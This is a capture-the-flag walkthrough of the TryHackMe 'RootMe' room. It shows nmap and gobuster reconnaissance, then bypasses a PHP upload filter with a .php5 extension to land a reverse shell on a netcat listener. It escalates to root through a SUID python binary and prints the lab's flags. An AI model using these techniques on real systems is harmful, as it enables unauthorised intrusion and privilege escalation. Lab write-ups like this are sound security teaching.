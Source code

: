 ```yaml
---
description: https://tryhackme.com/room/rrootme
---
```


# RootMe

## Reconnaissance

```
(kali㉿kali)-[~/Desktop] $ sudo nmap -sV 10.10.192.126 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-21 23:16 EDT Nmap scan report for 10.10.192.126 
Host is up (2.4s latency). 
Not shown: 998 closed tcp ports (reset) 
PORT STATE SERVICE VERSION 
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) 
80/tcp open http Apache httpd 2.4.29 ((Ubuntu)) 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see **port 80** is open, so we can try to enumerate some web directories using gobuster.

<pre><code>(kali㉿kali)-[~/Desktop] $ gobuster dir -u http://10.10.192.126 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
<strong>===============================================================
</strong>Gobuster v3.5
by OJ Reeves (@TheColonial) &#x26; Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.126
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/21 23:25:23 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.192.126/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.192.126/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.192.126/js/]
/panel                (Status: 200) [Size: ???] [--> http://10.10.192.126/panel/] &#x3C;- Looks suspicious
</code></pre>

## Getting a Shell

Accessing the /panel directory of the machine's webserver leads us to a file upload page.

<figure><img src="broken-reference" alt=""><figcaption><p>What a neat feature!</p></figcaption></figure>

As the devious person I am, I tried to upload pentestmonkey's php reverse shell script to listen on port 4444 but this server has an upload filtering for .php files.&#x20;

I managed to bypass this filter by renaming my reverse shell file to a .php5 extension. After the upload was a success, the page even had a button to directly run my recently uploaded script!

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444           
listening on [any] 4444 ...
connect to [10.18.41.182] from (UNKNOWN) [10.10.192.126] 36120
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:38:01 up 23 min,  0 users,  load average: 0.00, 0.05, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ ls -la
ls -la
total 2097256
drwxr-xr-x  24 root root       4096 Aug  4  2020 .
drwxr-xr-x  24 root root       4096 Aug  4  2020 ..
drwxr-xr-x   2 root root       4096 Aug  4  2020 bin
drwxr-xr-x   3 root root       4096 Aug  4  2020 boot
drwxr-xr-x   2 root root       4096 Aug  4  2020 cdrom
drwxr-xr-x  17 root root       3700 Jun 22 03:15 dev
drwxr-xr-x  96 root root       4096 Aug  4  2020 etc
drwxr-xr-x   4 root root       4096 Aug  4  2020 home
lrwxrwxrwx   1 root root         34 Aug  4  2020 initrd.img -> boot/initrd.img-4.15.0-112-generic
lrwxrwxrwx   1 root root         34 Aug  4  2020 initrd.img.old -> boot/initrd.img-4.15.0-112-generic
drwxr-xr-x  22 root root       4096 Aug  4  2020 lib
drwxr-xr-x   2 root root       4096 Aug  4  2020 lib64
drwx------   2 root root      16384 Aug  4  2020 lost+found
drwxr-xr-x   2 root root       4096 Feb  3  2020 media
drwxr-xr-x   2 root root       4096 Feb  3  2020 mnt
drwxr-xr-x   2 root root       4096 Feb  3  2020 opt
dr-xr-xr-x 107 root root          0 Jun 22 03:14 proc
drwx------   6 root root       4096 Aug  4  2020 root
drwxr-xr-x  26 root root        860 Jun 22 03:20 run
drwxr-xr-x   2 root root      12288 Aug  4  2020 sbin
drwxr-xr-x   4 root root       4096 Aug  4  2020 snap
drwxr-xr-x   2 root root       4096 Feb  3  2020 srv
-rw-------   1 root root 2147483648 Aug  4  2020 swap.img
dr-xr-xr-x  13 root root          0 Jun 22 03:14 sys
drwxrwxrwt   2 root root       4096 Jun 22 03:37 tmp
drwxr-xr-x  10 root root       4096 Feb  3  2020 usr
drwxr-xr-x  14 root root       4096 Aug  4  2020 var
lrwxrwxrwx   1 root root         31 Aug  4  2020 vmlinuz -> boot/vmlinuz-4.15.0-112-generic
lrwxrwxrwx   1 root root         31 Aug  4  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-112-generic

```

My usual routine after getting a web shell is spawning an interactive TTY using python.

After getting my interactive TTY, I tried to list some information about the directories & files within the target machine. We were tasked to look for a flag within our current powers, and so we looked.&#x20;

```
$ ls
ls
html  user.txt
$ cat user.txt
cat user.txt
THM{y0u_g0t_a_sh3ll}
```

## Privilege Escalation

One common angle of escalating privileges in Linux machines is looking for exectuables with the SUID bit set.

```
$ find / -user root -perm /4000
find / -user root -perm /4000
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount

```

I noticed that there is a weird entry of `/usr/bin/python`, to which I used a technique from GTFOBins that leverages the python binary to gain root privileges.

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

```
# ls     
ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
# cd root
cd root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n

Done and dusted!
```
